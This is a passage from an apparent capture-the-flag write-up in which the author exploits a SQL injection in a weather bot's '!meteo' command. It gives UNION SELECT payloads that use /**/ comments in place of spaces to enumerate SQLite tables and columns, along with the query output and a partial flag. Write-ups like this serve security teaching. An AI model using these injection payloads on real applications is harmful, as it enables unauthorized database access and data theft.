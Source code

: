 And it worked ... So now I knew that I was only missing a ). Time for the exploitation.

Fisrtly, lets list all the available tables.

```
!meteo '/**/or/**/1=1)/**/union/**/select/**/name,2,3/**/FROM/**/sqlite_schema/**/WHERE/**/type='table'/*

|   id  |       capital        |  temperature  |
+-------+----------------------+---------------+
|   0   |      Amsterdam       |       2       |
|   1   |       Athènes        |       16      |
|   2   |       Belgrade       |       5       |
|   3   |        Berlin        |       0       |
|   4   |        Berne         |       16      |
|   5   |      Bratislava      |       12      |
|   6   |      Bruxelles       |       8       |
|   7   |       Bucarest       |       1       |
|   8   |       Budapest       |       3       |
|   9   |       Chisinau       |       11      |
|   10  |      Copenhague      |       25      |
|   11  |        Dublin        |       28      |
|   12  |       Helsinki       |       23      |
|   13  |         Kiev         |       18      |
|   14  |       Valette        |       23      |
|   15  |       Lisbonne       |       20      |
|   16  |      Ljubljana       |       25      |
|   17  |       Londres        |       24      |
|   18  |      Luxembourg      |       28      |
|   19  |        Madrid        |       14      |
|   44  | 109pUjkEezHhFGrCpHIg | MCTF{11K3_0r_ |
| meteo |          2           |       3       |
+-------+----------------------+---------------+
```


Now that we have the table name `meteo`, we need the columns.


```
!meteo '/**/or/**/1=1)/**/union/**/select/**/group_concat(name,'|'),2,3/**/from/**/pragma_table_info("meteo")/*

|              id              |       capital        |  temperature  |
+------------------------------+----------------------+---------------+
|              0               |      Amsterdam       |       2       |
|              1               |       Athènes        |       16      |
|              2               |       Belgrade       |       5       |
|              3               |        Berlin        |       0       |
|              4               |        Berne         |       16      |
|              5               |      Bratislava      |       12      |
|              6               |      Bruxelles       |       8       |
|              7               |       Bucarest       |       1       |
|              8               |       Budapest       |       3       |
|              9               |       Chisinau       |       11      |
|              10              |      Copenhague      |       25      |
|              11              |        Dublin        |       28      |
|              12              |       Helsinki       |       23      |
|              13              |         Kiev         |       18      |
|              14              |       Valette        |       23      |
|              15              |       Lisbonne       |       20      |
|              16              |      Ljubljana       |       25      |
|              17              |       Londres        |       24      |
|              18              |      Luxembourg      |       28      |
|              19              |        Madrid        |       14      |
|              44              | 109pUjkEezHhFGrCpHIg | MCTF{11K3_0r_ |
| id|capital|temperature|temps |          2           |       3       |
```